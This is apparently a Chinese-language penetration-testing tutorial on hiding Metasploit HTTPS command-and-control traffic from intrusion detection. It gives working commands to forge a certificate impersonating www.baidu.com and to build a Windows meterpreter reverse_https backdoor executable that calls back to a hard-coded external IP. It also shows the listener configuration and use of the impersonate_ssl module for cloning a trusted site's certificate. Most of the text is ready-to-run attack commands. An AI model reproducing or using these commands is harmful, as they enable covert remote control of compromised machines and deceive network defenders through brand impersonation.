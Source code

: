 
如果我们采用MSFhttps协议上线控制

默认不修改采用MSF自带的证书进行上线
（流量设备IDS 如果有这类策略直接就能知道是MSF控制流量，如ja3,ja3s特征）
```
默认证书访问https://:监听端口，浏览器证书显示：
公用名（CN）lowe.sons.io
组织（0）Lowe and Sons
组织单位（OU）override
公用名（CN）lowe.sons.io
组织（O）Lowe and Sons
组织单位（Ou）override
```

## **更换证书**
1.利用 openssl程序 生成证书：
```
openssl req -new -newkey rsa:4096 -days 365 -nodes -x509 -subj 
"/C=UK/ST=xiaodi/L=xiaodi/O=Development/CN=www.baidu.com" -keyout 
www.baidu.com.key -out www.baidu.com.crt && cat www.baidu.com.key 
www.baidu.com.crt > www.baidu.com.pem && rm -f www.baidu.com.key 
www.baidu.com.crt
```
2.MSF 生成绑定证书后门：
```
msfvenom -p windows/meterpreter/reverse_https LHOST=47.94.236.117 
LPORT=5566 PayloadUUIDTracking=true PayloadUUIDName=Whoamishell 
HandlerSSLCert=/root/www.baidu.com.pem StagerVerifySSLCert=true -
f exe -o https-b.exe
```
3.MSF 监听上线：
```
use exploit/multi/handler
set payload windows/meterpreter/reverse_https
set lhost 0.0.0.0
set lport 5566
set HandlerSSLCert /root/www.baidu.com.pem
set StagerVerifySSLCert true
run
```
此时浏览器https://
```
公用名（CN）www.baidu.com
组织(0)Development
```

^
4.利用msf的impersonate_ssl 模块
此外 Metasploit 框架还有一个 auxiliary/gather/impersonate_ssl 模块，可
以用来自动从信任源创建一个虚假证书.pem，十分方便：
```
use auxiliary/gather/impersonate_ssl 
set RHOST www.baidu.com
run
显示输出.pem文件位置
```
